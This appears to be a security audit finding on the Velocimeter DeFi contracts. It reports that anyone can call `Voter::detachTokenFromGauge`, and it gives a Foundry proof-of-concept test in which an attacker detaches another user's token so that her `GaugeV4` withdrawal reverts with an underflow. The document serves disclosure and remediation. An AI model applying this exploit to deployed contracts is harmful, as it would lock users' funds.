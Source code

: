 Warm Denim Mantis

High

# Missing access control on `Voter::detachTokenFromGauge` allows attacker to stop users from withdrawing from `GaugeV4`

## Summary
There is no access control on `Voter::detachTokenFromGauge` meaning any user can call it and cause two types of issues:
1. Functions in `VotingEscrow` that should be restricted while a token id is tied to funds in a `GaugeV4` instance will not revert as expected.
2. After the expiry of the lock in `GaugeV4` the user will not be able to withdraw their tokens as the attempt to decrement the number of attachments during withdrawal will cause an underflow error.

## Vulnerability Detail
When a user deposits tokens into the `GaugeV4` contract using their ERC-721 token from `VotingEscrow` the contract calls `VotingEscrow::attach` which makes the following change:
```solidity
    attachments[_tokenId] = attachments[_tokenId] + 1;
```
This is used to limit the actions a user can make with their ERC-721 token while it is attached to any particular gauge. Then when a user withdraws all the funds tied to that token id within the `Gauge` the `attachments` mapping in `VotingEscrow` is decremented back, reallowing the previously limited actions (providing that was the only gauge it was attached to). However the `Voter` contract has a `detachTokenFromGauge` function that allows anyone to call `VotingEscrow::detach` on any `tokenId`. This not only means that the token will be allowed to make the previously restricted actions despite still having funds tied to that token id in the `GaugeV4` contract, it also means the user will not be able to withdraw all their tokens from `GaugeV4` as doing so will cause an underflow revert when attempting to decrement from the `VotingEscrow::attachments` mapping as it will have already been set to zero.

**Proof Of Concept**
Consider the following steps:
- Alice mints an ERC-721 after calling `OptionTokenV4::exerciseVe`
- Alice LPs in a pool & deposits the tokens into `GaugeV4`
- Bob calls `Voter::detachTokenFromGauge` to detach Alice's token
- When Alice tries to withdraw her tokens at the end of the lock period her transaction will fail due to the underflow error when attempting to decrement from the `VotingEscrow::attachments` mapping

Add the following test to `OptionTokenV4.t.sol` to show this issue:
```solidity
    function test_Toad_DepositStuck() public {
        // Regular user (Alice) gets a tokenId
        address alice = makeAddr("alice");
        vm.startPrank(address(owner));
        washTrades();
        FLOW.approve(address(oFlowV4), 1 ether);
        oFlowV4.mint(alice, 1 ether);
        FLOW.mint(alice, 100 ether);
        DAI.mint(alice, 100 ether);
        escrow.setVoter(address(voter));
        vm.stopPrank();

        // Alice gets LP tokens to deposit into gauge
        vm.startPrank(alice);
        DAI.approve(address(oFlowV4), 10 ether);
        (, uint256 aliceTokenId, ) = oFlowV4.exerciseVe(1 ether, 1 ether, alice, 20, block.timestamp);
        DAI.approve(address(router), 10 ether);
        FLOW.approve(address(router), 10 ether);
        router.addLiquidity(
            address(FLOW),
            address(DAI),
            false,
            10 ether,
            10 ether,
            0,
            0,
            alice,
            block.timestamp
        );

        // Alice calls GaugeV4::deposit (with her tokenId) this calls Voter::attachTokenToGauge
        flowDaiPair.approve(address(gauge), type(uint256).max);
        gauge.depositAll(aliceTokenId);
        vm.stopPrank();

        // Attacker (Bob) calls detachTokenFromGauge (no access control)
        address bob = makeAddr("bob");
        vm.prank(bob);
        voter.detachTokenFromGauge(aliceTokenId, alice);

        // Confirm alice can no longer withdraw (even after lock has passed) (Voter::detachTokenFromGauge would underflow)
        uint256 aliceUnlockTime = gauge.lockEnd(alice);
        vm.warp(aliceUnlockTime + 1);
        vm.startPrank(alice);
        vm.expectRevert();
        gauge.withdrawAll();
    }
```
The test reverts with the following stack traces:
```solidity
    ├─ [31141] GaugeV4::withdrawAll()
    │   └─ ← [Revert] panic: arithmetic underflow or overflow (0x11)
```

## Impact
This issue has two groups of potential impacts:
1. The `merge`, `split`, `transferFrom` and `withdraw` functions in `VotingEscrow.sol`, that should be blocked while the token is tied to tokens locked in `GaugeV4`, will not fail as expected. See this line which is present in those functions:
`        require(attachments[_tokenId] == 0 && !voted[_tokenId], "attached");`
4. The user will not be able to withdraw all their tokens from `GaugeV4` after their lock has expired because of the underflow it would cause when trying to decrement `attachments[_tokenId]` when it is already zero.
 
## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Voter.sol#L444

## Tool used

Manual Review & Foundry

## Recommendation
The function `Voter::detachTokenFromGauge` should have a check such as `require(isGauge[msg.sender])` (which is already present in `Voter::attachTokenToGauge`). Adding this would remove the ability for users to detach tokens unexpectedly.
